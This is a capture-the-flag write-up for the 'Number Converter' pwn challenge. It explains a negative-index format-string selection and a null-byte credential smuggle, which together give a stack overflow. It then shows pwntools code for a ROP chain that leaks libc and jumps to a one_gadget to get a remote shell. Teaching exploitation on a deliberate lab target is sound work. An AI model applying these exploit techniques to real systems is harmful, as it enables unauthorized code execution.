 # Number Converter

![description](./description.png)

File: [number-converter.zip](./number-converter.zip)

## Reconnaissance

We are given a zip file that contains an ELF executable running on a server and the libc used by this executable. With no more information, we can assume the goal here is to get a shell / read the flag on the server by exploiting it.

```
number-converter:  ELF 64-bit LSB executable, x86-64, [...] not stripped
```

The executable is not stripped, this is helpful to reverse engineer it as we can quickly identify relevant symbols.

When running `number-converter`, we are asked for credentials to access the actual number converter. No buffer overflow or obvious issue here.

```
$ ./number-converter 
-= Number converter v0.2 =-
login: admin  
password: password?
Invalid credentials!
```

Before taking a closer look, let's check the protections using `checksec`:

![checksec](checksec.png)

`No canary found` may hint towards a buffer overflow, but `NX enabled` means we will probably need to use ROP if we do exploit one. `No PIE` will also makes things easier by having constant addresses for the program memory.

## "Hacking" the credentials

Decompiling the `check_login` function reveals that the executable makes absolutely no attempt at hiding the credentials.

```C
bool check_login(void)
{
  int cmp;
  cmp = strcmp(username,"admin");
  if ((cmp == 0) && (cmp = strcmp(password,"sup3rus3r"), cmp == 0)) {
    return true;
  }
  return false;
}
```

This looks a bit too easy and pointless... But we will come back to this later.

## The number converter

Once logged in, we have access to a basic number conversion service. We first need to make a choice for the base to convert from and then input the number to convert. We can also choose to exit.

```
-= Number converter v0.2 =-
login: admin
password: sup3rus3r
Login success !

Input type: 
1. Decimal
2. Hexadecimal
3. Octal
0. Exit
> 2
Input number: 20
Converted: 32
```

We can't input a choice larger than 3 and there is no ovious buffer overflow here either.

First, the `read_int` function reads our choice with a secure `fgets` call and converts it to an integer using `atoi`.

```C
int read_int(void)
{
  char[16] buffer;
  fgets(&buffer,15,stdin);
  return atoi(&buffer);
}
```

Then, the input number is read with a secure `scanf` call which uses a different format string depending on our choice.

```C
scanf(formatters[choice-1],&converted);
```

 The three formatters are statically initialized in a `setup` function at the start of execution. Three pointers to the strings are stored in an array in the program memory in `formatters`.

```
gdb-peda$ p &formatters
$1 = (<data variable, no debug info> *) 0x4040e0 <formatters>

gdb-peda$ x/3s (void*)formatters 
0x402004:       "%lu"
0x402008:       "%lx"
0x40200c:       "%lo"
```

## Bad choices

The first issue with this program is located in the choice input. The program correctly checks that our choice is less than four **but fails to check for a negative choice**. Indeed, the `atoi` conversion returns a signed integer.

For example, if our choice is `-1`, the program will try to get the format string for scanf pointed at `formatter[-2]` (= the pointer at memory location `0x4040e0-16=0x4040d0`).

In most cases the `scanf` call will fail if the value there is null, or even crash if it's not null when it tries to dereference it.

```
Input type: 
1. Decimal
2. Hexadecimal
3. Octal
0. Exit
> -1010
atoi(0x7ffe71d79b20, 0x7f46dbda9a43, 0xfbad208b, 0x7ffe71d79b20)                                                       = -1010
Input number: __isoc99_scanf(20, 0x7ffe71d79b60, 0x7ffe71d79b60, 0 <no return ...>
--- SIGSEGV (Segmentation fault) ---
```

How can we exploit this? Well, if we somehow manage to find or store a pointer to a string `"%s"` somewhere before the formatters array, we will be able to use it and effectively call `scanf("%s", &converted)` which is **very not secure**.

## Smuggling %s

What can we use to write the string `"%s"` and a pointer to `"%s"` before the formatters? The `scanf` call will be of no use because it stores its result on the stack. Same issue with the `read_int` function.

The only remaining possibility is the login and password inputs. Lucky for us, they are stored in memory just before the `formatters` array! All we have to do is store our string and pointer in one of these fields and we can trigger a `scanf("%s", &converted)`!

But wait... This will fail the authentication check and won't even let us access the number converter... unless...?

Let's review how our credentials are read and checked.

```C
fgets(username,31,stdin);
fgets(password,31,stdin);
[...]
cmp = strcmp(username,"admin");
```

See the issue here? `fgets` allows us to input null bytes but the string comparison is made with `strcmp` which stops comparing when encountering a null byte.

This means **we can input anything after the login or password followed by a null byte** and still pass the login check.

```bash
$ echo -e "admin\x00smuggling\nsup3rus3r\x00somedata" | ./number-converter
-= Number converter v0.2 =-
login: password: Login success !
```

## Putting things together

We now have a clear way to stack overflow.

First we smuggle the string `"%s"` and a pointer to this string in our username input during the login phase. We can do this because PIE is not enabled so the username address is constant.

```python
e = ELF("./number-converter")
username_addr = e.symbols[b"username"]

username = b"admin" + b"\x00" * 3 # pass username check
username += b"%s" + b"\x00" * 6 # the format string to use in the scanf call. %s to exploit buffer overflow
username += p64(username_addr + 8) # pointer to the format string input
password = b"sup3rus3r"
```

Then we use a carefully chosen negative number (hint: it's -5) to use our `"%s"` string as the formatter for `scanf` to write arbitrary data on the stack (stack overflow).

```python
fake_choice = "-5" # leads to our pointer to "%s"
p.recvuntil("> ")
p.sendline(fake_choice)
p.recvuntil("Input number:")
p.sendline("A" * 100)
```

Finally, we use the choice 0 which exits main with a `ret` instruction and... Success!

![overflow](overflow.png)

## From stack overflow to shell

We can now use the usual methods to get a shell from our stack overflow.

Since Partial RELRO is enabled, libc base is randomized. We can first leak the puts address and substract the puts offset to get the base. This is done with a simple **ROP chain** that prints the value of `puts` in the Global Offset Table, then returns to start of `main` for a second stage.

```python
puts_got = e.got[b"puts"]
puts_addr = e.symbols[b"puts"]
main_addr = e.symbols[b"main"]
pop_rdi = 0x401583 # pop rdi; ret
ropchain = p64(pop_rdi) + p64(puts_got) + p64(puts_addr) + p64(main_addr)
```

After returning to main, we exploit a second stack overflow in the same way and this time return to a one_gadget in libc that provides us a shell.

```python
libc = ELF("./libc-number-converter.so.6")
puts_offset = libc.symbols[b"puts"]
#0xe3b31 execve("/bin/sh", r15, rdx)
#constraints:
#  [r15] == NULL || r15 == NULL
#  [rdx] == NULL || rdx == NULL
one_gadget_offset = 0xe3b31
jump_address = puts_leak - puts_offset + one_gadget_offset
```

Finally we get the flag for this well thought-out challenge tagged "easy" :)

```
$ python exploit.py 
[+] Opening connection to ctf10k.root-me.org on port 5006: Done
puts leak 0x7fdc73457420
[*] Switching to interactive mode
$ cat flag.txt
RM{sc4nf_f0rm4t_str1ng_101}
```

You can find the source code for the full exploit [here](./exploit.py).
